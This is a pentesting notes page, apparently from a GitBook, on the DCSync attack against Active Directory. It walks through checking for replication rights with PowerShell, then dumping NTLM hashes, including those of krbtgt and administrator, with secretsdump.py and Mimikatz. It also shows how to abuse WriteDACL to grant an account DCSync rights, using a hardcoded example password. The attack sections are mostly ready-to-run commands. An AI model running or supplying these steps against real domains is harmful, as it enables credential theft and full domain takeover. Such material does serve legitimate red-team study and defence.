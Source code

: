 ```yaml
---
description: Syncing into full domain compomise
---
```


# DCSync

{% embed url="https://www.youtube.com/watch?ab_channel=Netwrix&v=_m3u13Df7Fc" %}
Hard to prevent and detec.
{% endembed %}

### What is a DCSync attack

DCSync is a attack for stealing the Active Directory password database by using the Directory Replication Service Remote Protocol. This allows an attacker to mimic a Domain Controller to retrieve all the user NTLM password hashes.

To perfrom this attack you need the rights:

* Replicating Directory Changes
* Replciating Directory Changes all

<figure><img src="broken-reference" alt=""><figcaption><p>Its commond to find these right enabled.</p></figcaption></figure>

#### Use powershell to check for Replication rights

First retrieve the user's SID and then use Get-ObjectAcl to check or Replication rights

```bash
Get-DomainUser -Identity mczen  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=zencorp,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

# Returns
AceQualifier          : AccessAllowed
ObjectDN              : DC=ZENCORP,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=ZENCORP,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All
```

### The DCSync attack

DCSync replication can be done by several tools. Runnings these tools and performing the DCSync attack will result in extracting NTLM hashes.

#### Secretsdump

```bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

* `-just-dc-ntlm` for NTLM hashes only
* `just-dc` for NTLM, Kerberos and cleartext
* -j`ust-dc-user` username for specific user
* `history` for password history
* `-pwd-last-set` password last changes

#### Mimikatz

When using Mimikatz we have to target a user and must ben run by the user who has the DCSync privileges.

```bash
# Using mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

# Using mimikatz.exe
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:ZENCORP.LOCAL /user:ZENCORP\administrator

# Or target the krbtgt
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### <mark style="color:yellow;">WriteDACL</mark>

The WriteDACL privilege gives a user the ability to add ACLs to an object. This means that we can add a user to this group and give them DCSync privileges.

* ACL: Acces Control Lists defines who has access to which asset or resource.
* ACE: Acces Control Entries stores ACL settings.
* Security principal: Entity to which ACE applies, like users, group or process.

Using powershell we can use these WriteDACL rights to add DCSync privileges to an aacount.

```bash
# Create credential object
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)

# Add DCSynce privilgess
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```
